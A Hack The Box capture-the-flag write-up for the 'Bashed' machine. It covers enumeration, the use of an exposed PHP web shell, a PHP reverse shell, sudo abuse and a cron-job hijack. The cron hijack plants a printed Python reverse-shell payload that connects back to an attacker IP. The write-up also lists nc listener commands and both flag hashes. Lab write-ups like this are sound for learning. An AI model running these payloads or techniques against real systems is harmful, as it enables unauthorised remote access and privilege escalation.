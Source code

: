 ```yaml
---
title: "HTB - Bashed"
author: "Anubhavsingh Sawdagur"
date: "2021-04-26"
subject: "Markdown"
subtitle: "10.10.10.56"
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```


# Bashed - 10.10.10.68

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.68
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-26 05:02 EDT
Nmap scan report for 10.10.10.68
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.45 seconds
```

## Gobuster

Enumerating the Apache webserver with gobuster.

```bash
gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt -o log/gobuster.out -u http://10.10.10.68 
```

```bash
/.htpasswd            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

## Website

![](Bashed.assets/image-20210426050746209.png)

The github link, [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash) reveals partial code of the website.

![](Bashed.assets/image-20210426051313928.png)

![](Bashed.assets/image-20210426051347480.png)

![](Bashed.assets/image-20210426051413896.png)

Both files **[phpbash.php](http://10.10.10.68/dev/phpbash.php)** and **[phpbash.min.php](http://10.10.10.68/dev/phpbash.min.php)** looks to be the same as in the github repository. Hence source code is revealed.

The page [http://10.10.10.68/dev/phpbash.php](http://10.10.10.68/dev/phpbash.php) is an interactive shell coded in php.

![](Bashed.assets/image-20210426051717761.png)

# Exploitation

### Getting a reverse shell

Going to **/dev/shm**, the attacker can upload a reverse shell as normally anyone can write to **/dev/shm**.

![](Bashed.assets/image-20210426053142178.png)

Normally on kali linux, these are some default location where php reverse shells can be found.

```bash
$ locate php-reverse                                                                             
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

```

![](Bashed.assets/image-20210426052146005.png)

Editing the php reverse shell to connect to the attacker's IP address.

![](Bashed.assets/image-20210426052531204.png)

The attacker then hosts a http server and also setup **nc** to listen for an incoming connection on port **8888**.

```bash
nc -lvnp 8888
python3 -m http.server 80  
```

![](Bashed.assets/image-20210426053314010.png)

![](Bashed.assets/image-20210426053359115.png)

After running the reverse shell on the server, the attacker gets a **nc** connection.

![](Bashed.assets/image-20210426053608498.png)

The reverse shell is then stabilised using the following commands.

```bash
which python # to know which python version exists
python -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
```

![](Bashed.assets/image-20210426053953530.png)

## Privilege Escalation to scriptmanager

### **Vulnerability Explanation:**

As can be seen below, the user **www-data** can execute any command as the user **scriptmanager** *without the need of a password*

![](Bashed.assets/image-20210426054917421.png)

### User.txt

```bash
find /home -type f -ls 2>/dev/null
```

The above command finds everything having the type **file** in the directory **/home**, as well as listing all the attributes of each file and finally **2>/dev/null** mean to redirect standard error to **/dev/null**.

![](Bashed.assets/image-20210426060250953.png)

**User.txt** can be found in the home directory of **arrexel** and it can be read anyone.

```bash
cat /home/arrexel/user.txt
```

![](Bashed.assets/image-20210426061019511.png)

> user.txt flag: `2c281f318555dbc1b856957c7147bfc1`

## Privilege Escalation to Root

### Root.txt

The directory **scripts** standards out as it is not an standard directory.

![](Bashed.assets/image-20210426061419226.png)

### **Vulnerability Explanation:**

Going into the directory **script**, it can be concluded that there has to be a **cronjob** running on the machine as the date created of the file **test.txt** keeps changing **every minute**.

![](Bashed.assets/image-20210426061811213.png)

Since the script **test.py** is owned by **scriptmanager** and it is writing to the file **test.txt** as root. It can be said that the attacker can modify the script and it will be ran as root.

```bash
cat test.py
```

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

RSG is used to generate a reverse shell in python and it also listens on the port specified. After adding the selected payload to the file **test.py**, it will be executed by the cronjob when it runs.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.23",8888))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

![](Bashed.assets/image-20210426063556805.png)

As soon as the **cronjab** executes, the attacker gets a reverse shell from the machine bashed.

![](Bashed.assets/image-20210426064607146.png)

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

![](Bashed.assets/image-20210426065148940.png)

> root.txt flag: `cc4f0afe3a1026d402ba10329674a8e2`
